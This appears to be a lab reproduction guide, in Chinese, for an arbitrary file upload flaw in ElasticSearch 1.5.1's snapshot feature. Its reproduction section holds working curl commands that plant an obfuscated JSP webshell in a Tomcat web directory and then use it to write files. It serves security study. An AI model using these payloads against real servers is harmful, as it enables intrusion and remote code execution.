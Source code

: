 # ElasticSearch 任意文件上传漏洞（WooYun-2015-110216）

ElasticSearch是一个分布式的RESTful搜索和分析引擎。

ElasticSearch的备份功能中存在一个漏洞，攻击者可以利用该漏洞向文件系统写入任意文件，当与其他Web服务结合时，可能导致WebShell上传。

ElasticSearch具有数据备份功能，允许用户指定一个路径来存储备份数据。这个路径和文件名都可以由用户控制。如果系统上同时运行着其他Web服务（如Tomcat、PHP等），攻击者可以利用ElasticSearch的备份功能向Web可访问目录写入WebShell。

与[CVE-2015-5531](../CVE-2015-5531/)类似，该漏洞与备份仓库功能有关。在ElasticSearch 1.5.1版本之后，备份仓库的根路径被限制在`path.repo`配置选项中。如果管理员未配置此选项，备份功能将默认禁用。即使配置了该选项，只有当Web根目录位于配置目录内时，才能写入WebShell。

参考链接：

- <http://cb.drops.wiki/bugs/wooyun-2015-0110216.html>

## 环境搭建

执行以下命令启动一个ElasticSearch 1.5.1版本的服务器，同时，一个Tomcat也运行在同一容器中：

```
docker compose up -d
```

Tomcat安装在`/usr/local/tomcat`目录，其Web目录位于`/usr/local/tomcat/webapps`。ElasticSearch安装在`/usr/share/elasticsearch`目录。

## 漏洞复现

我们的目标是利用ElasticSearch在`/usr/local/tomcat/webapps`目录下写入WebShell。

首先，创建一个恶意的索引文档：

```
curl -XPOST http://127.0.0.1:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

然后创建一个恶意的仓库。其中`location`的值是我们要写入文件的路径。

> 注意：仓库路径的特点在于它可以写入任何可访问的位置，如果路径不存在会自动创建。这意味着你可以通过文件访问协议创建任意文件夹。这里我们将路径指向Tomcat的Web部署目录，因为Tomcat会自动为该目录下创建的文件夹创建新的应用（如果文件名为wwwroot，创建的应用名称就是wwwroot）。

```
curl -XPUT 'http://127.0.0.1:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

验证并创建仓库：

```
curl -XPUT "http://127.0.0.1:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

完成！

访问`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`即可找到我们上传的WebShell。

这个Shell允许向wwwroot目录下的test.jsp文件写入任意字符串。例如：`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`。然后访问/wwwroot/test.jsp就能看到"success"：

![](1.png)
